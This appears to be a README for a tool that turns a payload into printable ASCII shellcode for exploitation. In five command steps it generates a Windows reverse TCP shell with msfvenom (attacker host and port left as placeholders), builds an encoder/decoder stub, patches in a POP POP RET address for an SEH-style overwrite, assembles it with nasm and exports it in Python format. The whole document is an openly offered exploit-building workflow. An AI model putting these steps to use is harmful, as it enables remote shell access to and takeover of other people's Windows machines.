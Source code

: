 # Generate an printable ASCII shellcode

## Utilization

### Step 1 - Generate your payload
```
msfvenom -p windows/shell_reverse_tcp lhost=XXX.XXX.XXX.XXX lport=XXXX -a x86 --platform win -f raw -o /tmp/reverse_shell.o
```

### Step 2 - Generate the decoder.asm
```
./encoder.py -p /tmp/reverse_shell.o
```

### Step 3 - Replace PLACEHOLDER with POP; POP; RET
Find one POP; POP; RET address inside your application and open the file payload.asm changing the 0x41414141 PLACEHOLDER address to this address


### Step 4 - Assembly all ASM
```
nasm payload.asm -o payload.o
```

### Step 5 - Show the result as python format
```
cat payload.o | msfvenom -p - -a x64 --platform win -e generic/none -f python
```
